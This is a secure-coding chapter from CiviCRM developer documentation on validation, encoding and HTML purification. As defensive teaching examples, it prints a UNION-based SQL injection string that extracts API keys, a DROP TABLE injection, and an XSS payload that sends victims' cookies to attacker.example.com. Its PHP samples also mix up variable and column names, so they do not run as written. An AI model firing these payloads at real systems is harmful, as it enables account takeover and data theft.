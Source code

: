 # Secure Coding

## Introduction

CiviCRM maintains a number of standard practices which help ensure that CiviCRM is as secure as possible. This chapter will aim to help give developers guidance on the best way to write code for CiviCRM core and Extensions etc in a secure way. 

## Inputs and outputs

Like any large application, CiviCRM has many inputs and many outputs &mdash; and for adequate security, it must ensure that all data which flows from untrusted inputs to sensitive outputs receives *sanitizing* at some point along the way to protect against attacks.

![Inputs vs outputs diagram](/img/security-inputs-and-outputs.svg)

### Bad example

Consider the following PHP code:

```php
$contactId = $_GET['cid']; // Untrusted input
$sql = "
 SELECT display_name
 FROM civicrm_contact
 WHERE id = $contactID;
";
$query = CRM_Core_DAO::executeQuery($query); // Sensitive output
```

This is bad because because a user can send the following string for the `cid` parameter:

```text
0 UNION SELECT api_key FROM civicrm_contact WHERE id = 4
```

With this attack, the response page would display the API key (for any contact the attacker chooses) anywhere the page would normally display the contact's name. This is an information disclosure vulnerability.

!!! note
    You might think that an input like ``0; DROP TABLE `civicrm_contact` `` would present an [even more serious a vulnerability](https://xkcd.com/327/), but fortunately CiviCRM does not allow [query stacking](http://www.sqlinjection.net/stacked-queries/) which means `executeQuery()` can only execute one query at a time.

### An improvement using sanitizing

In order to fix this security vulnerability, we need to sanitize either the input or output (or both!) as follows:

```php
$contactId = CRM_Utils_Request::retrieve(
  'cid',
  'Positive' // <-- Input sanitizing
);
$sql = "
  SELECT display_name
  FROM civicrm_contact
  WHERE contact_id = %1;
";
$displayName = CRM_Core_DAO::executeQuery($query, array(
  1 => array($contactId, 'Integer'), // <-- Output sanitizing
));
```

Now, users will only be able to send integers in, and CiviCRM will only be able to send integers out. This is obviously a simplified example, but it illustrates the concepts of inputs, outputs, and sanitizing.


## Sanitization methods

Sanitizing (also sometimes generally called "**escaping**") refers the process of cleaning (or rejecting) data to protect against attacks.

### Validation

The most primitive way to sanitize untrusted data (as in the example above) is to throw an error when it does not conform to the expected format.

Validation works well for data *inputs* which are of known (and simple) types, but can be much more difficult (and less effective) when used for *outputs* or complex data types.

Validation can also be used for *outputs*. For example, when sending data to MySQL in a query, it's good practice to validate that integers are actually integers.

### Encoding (aka "escaping") {:#encoding}

Encoding alters the untrusted data to suit a *specific output*.

For example, consider the following Smarty code:

```html
<div class="email">{$emailAddress}</div>
```

This works fine with an input of `foo@example.org`. But a string like `<script>window.location='http://attacker.example.com/?cookie='+document.cookie</script>` would present an [XSS](https://excess-xss.com/) vulnerability. If loaded in a victim's browser, this string would send the victim's cookies to the attacker's website and allow the attacker to masquerade as the user.

Using validation to reject email addresses characters like `<` or `>` would prevent the attack, but it would also prevent us from displaying email addresses like `"Foo Bar" <foo@example.org>`.

By *encoding* the data for HTML (e.g. by using [htmlentities()](http://php.net/manual/en/function.htmlentities.php)), we change `"Foo Bar" <foo@example.org>` to `&quot;Foo Bar&quot; &lt;foo@example.org&gt;`. This prevents the attack and allows us to display any characters we wish.

!!! important
    Encoding is specific to output mechanisms. Data embedded within HTML must be encoded differently from data embedded in an SQL query or a shell command.

### Purification

In rare cases such as user-editable rich text fields, CiviCRM cannot use validation or encoding to protect against attacks because the same characters used in attacks are also necessary for presentation. For these cases, CiviCRM uses a 3rd-party library called [HTML Purifier](http://htmlpurifier.org/) which employs sophisticated techniques to [remove XSS](http://htmlpurifier.org/live/smoketests/xssAttacks.php) from HTML strings.


## Sanitize input or output? {:#input-vs-output}

Now that we understand the difference between inputs and outputs, as well as the different sanitization techniques, the question arises: *at what point in my code should I sanitize? Input, or output?*

### In an ideal world

Ideally developers should do the following.

* For inputs:
    * **Validate data inputs** as strictly as possible.
* For outputs:
    * **Validate data outputs** as strictly as possible.
    * **Encode data outputs** whenever possible (which is most of the time).
    * Provide purification for outputs in rare cases when encoding is not possible (e.g. rich text).

!!! failure "In a misguided world"

    A common (and well meaning) mistake is to *encode inputs* instead of *encoding outputs*. For example, we might choose to store a string like `"Foo Bar" <foo@example.org>` in the database as `&quot;Foo Bar&quot; &lt;foo@example.org&gt;` because we know that, later on, our application will display it within an HTML page. This approach is bad because different outputs (e.g. HTML, SQL, shell) require different of encoding schemes. During input we have no reliable way of knowing which outputs the data will reach.

### CiviCRM's current strategy 

Unfortunately (at least as of 2017) CiviCRM exists in a somewhat uncomfortable limbo between the ideal world and the misguided world. In some places, CiviCRM sanitizes inputs with a partial encoding for HTML output, and then does not encode HTML the output. In other places, (e.g. in SQL queries) CiviCRM encodes outputs. In 2012 developers [identified the need to improve this situation](https://issues.civicrm.org/jira/browse/CRM-11532), but unfortunately it's not an easy task because shifting strategies has implications across the entire codebase. This doesn't mean CiviCRM is rife with security vulnerabilities &mdash; it just means that CiviCRM has not been *consistent* about how it approaches security.

CiviCRM's strategy is as follows:

* Inputs:
    1. Validate inputs when possible
    1. For rich text: purify inputs with `CRM_Utils_String::purifyHTML`.
    1. For non-rich text: *encode* inputs with `CRM_Utils_API_HTMLInputCoder::encodeInput()`
        * Note that this function only encodes `<` and `>`. It does *not* encode quotes.
* Outputs:
    1. HTML:
        * Do *not* perform HTML encoding for data between tags
        
            e.g. `<div>{$displayName}</div>`
            
        * *Do* perform HTML encoding for data within attributes
        
            e.g. `<a href="#" title="{$displayName|escape}">Foo</a>`
            
    1. SQL: validate and encode
    1. Shell: validate and encode


